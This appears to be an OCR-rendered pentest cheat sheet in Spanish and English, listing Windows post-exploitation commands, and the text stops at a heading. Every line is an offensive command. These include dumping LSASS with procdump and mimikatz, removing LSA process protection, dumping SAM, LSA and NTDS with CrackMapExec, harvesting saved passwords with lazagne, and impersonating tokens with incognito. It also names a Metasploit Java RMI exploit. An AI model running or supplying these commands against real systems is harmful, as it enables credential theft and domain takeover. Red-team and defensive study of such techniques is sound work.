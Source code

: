 ### ...

## Acceso como administrador

### Buscar credenciales

- procdump.exe -accepteula -ma lsass.exe lsass.dmp

	- mimikatz "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"

- mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
- post/windows/gather/smart_hashdump

	- hashdump

- cme smb <ip_range> -u <user> -p <password> -M lsassy
- cme smb <ip_range> -u <user> -p '<password>' --sam / --lsa / --ntds

### LSA as a Protected Process

- PPLdump64.exe <lsass.exe|lsass_pid> lsass.dmp
- mimikatz "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "token::elevate"  "sekurlsa::logonpasswords" "!processprotect  /process:lsass.exe" "!-" #with mimidriver.sys 

### Buscar contraseñas en archivos

- findstr /si 'password' *.txt *.xml *.docx

### Buscar contraseñas guardadas 

- lazagne.exe all

### shadow copies

- diskshadow list shadows all

	- mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\

### token manipulation

- .\incognito.exe list_tokens -u

	- .\incognito.exe execute -c "<domain>\<user>" powershell.exe

- use incognito

	- impersonate_token <domain>\\<user>

## Sin acceso

### java rmi

- exploit/multi/misc/java_rmi_server

### tomcat/jboss manager
